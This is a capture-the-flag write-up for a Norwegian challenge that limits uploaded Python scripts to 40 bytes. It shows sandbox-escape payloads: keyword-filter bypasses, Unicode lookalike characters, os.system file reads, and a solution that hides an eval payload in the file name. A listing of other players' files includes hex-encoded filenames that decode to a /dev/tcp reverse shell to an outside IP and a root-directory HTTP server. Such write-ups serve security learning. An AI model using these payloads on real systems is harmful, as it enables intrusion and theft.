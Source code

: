 # van_rizzum

Skibido van Rizzum liker å laste opp korte Python-programmer på webserveren sin, hvor de så blir kjørt og returnerer output tilbake til nettleseren. Veldig kjekt når man sitter og programmerer på en enhet hvor Python ikke er installert!

Han har åpnet for hvem som helst å kjøre programmer, men for å hindre at noen finner og leser det hemmelige flagget som ligger i fila `/very/long/path/to/a/secret/document/with/the/unoriginal/name/flag.txt` har han passet på at man ikke kan laste opp programmer som er lengre enn 40 bytes.

http://206.189.63.87/upload-python

# Writeup

Tried a inline import and system:

```python
__import__('os').system('cat /v*/*/f*')
```

That gave me `exec og import er fa'li'` and adding just the text `exec` and `import` seems to be banned. So I tried bypassing that:

```python
eval('__impor'+'t__("os").system("id")')
```

That gave me `uid=1001(lowpriv) gid=1001(lowpriv) groups=1001(lowpriv)`. But that was all 40 characters. So I need to shorten this a lot. I tried unicode as Python normalizes unicodes. Based on this [website](https://gosecure.github.io/unicode-pentester-cheatsheet/) I can use `ｉ` instead of `i` and `ｍ` instead of `m`. 

```python
𝘦xec("impor"+"t os")
os.system("id")
```

This worked as well. 

```python
__ℹmport__("os").system("cat /**/f*")
```

This i think broke the challenge, got 502 bad gateway :/ and it seems not to recover. so hard crash? After a while Tormod fixed it and I could continue.

Now I tried many hours different methods of reading files. I figured out my scripts were uploaded into `/tmp/<randomchars>/solve.py`. But I did not come any further. Took a trip to Dinosaur World and when I got back I thought: What about snooping at what other people did? So I tried:

```python
__ℹmport__("os").system("cat ../*/*")
```

And here is a few things that popped out:

```python
help()eval(bytes.fromhex(__file__[70:]))
eval(bytes.fromhex(__file__[70:]))
help()eval(bytes.fromhex(__file__[70:]))
eval(bytes.fromhex(__file__[70:]))
eval(bytes.fromhex(__file__[70:]))
__ℹmport__("os").system("cat ../*/*")
__ℹmport__("os").system("od /**/*")help('modules')__ℹmport__("os").system("cat /**/f*")eval(bytes.fromhex(__file__[70:]))
eval(bytes.fromhex(__file__[70:]))
eval("__im"+"port__('os').system('sh')")eval(bytes.fromhex(__file__[70:]))a = input(">>");print(a)
print(open("/proc/self/fd/0").read())a=input(">>>");print(a)
__imporｔ__('os').system(__file__[70:])__ℹmport__("os").system("cat /**//*")
```

I did not really understand anything until I did a "ls ../*/*" and saw the filenames of some of them:

```bash
18727c92ea67643cc35eac2839d4074313fcdc74ce3432844b22db082c9c0142/solve
../18ff25358af38c70af2fce3253501b849bdfef6f83b69f82d562ee1a6998b2f6/test
../196d000758072c713f2710ac840d5441381bc9e931efd625ce31fc58d028d1af/cat
../1f4dafb905ec2ae5ab5bb19ecbe63c99003b64f467d9d86bc46ad9ac51e76040/solve
../223339eba13c003b4385701412fc6e053a7fc6bed420f5827e80907ac4caa27c/5f5f696d706f72745f5f282773756270726f6365737327292e506f70656e285b27707974686f6e33272c272d6d272c27687474702e736572766572272c2738303830272c272d64272c272f275d29
../260ecfb56d56e01d2c3d31f7831d67bb24004579cbf972f2ed052e20107e1984/solve
../26d87e36023d6f73e001825924114c08db9366566185ff2a78751e222830f171/5f5f696d706f72745f5f28226f7322292e73797374656d282762617368202d6320227368202d69203e26202f6465762f7463702f35312e3139352e39312e37362f333133333720303e2631222729
```

So they basically did use the filename as additional payload! Genious! It seems like they did reverse shell but I made this instead:

```python
import requests

script = "print(open('/very/long/path/to/a/secret/document/with/the/unoriginal/name/flag.txt').read())"
script_hex = script.encode().hex()
eval_script = "eval(bytes.fromhex(__file__[70:]))"

# Save eval to script_hex filename
with open(script_hex, "w") as f:
    f.write(eval_script)
    f.close()

url = "http://206.189.63.87/run-python"
files = {'f': open(script_hex, 'rb')}
r = requests.post(url, files=files)
print(r.text)
```

This script will create a file with the eval script and then run it. And it worked! Got the flag!


# Flag

```
helsectf{finnes_det_flere_l0sninger_enn_intended?}
```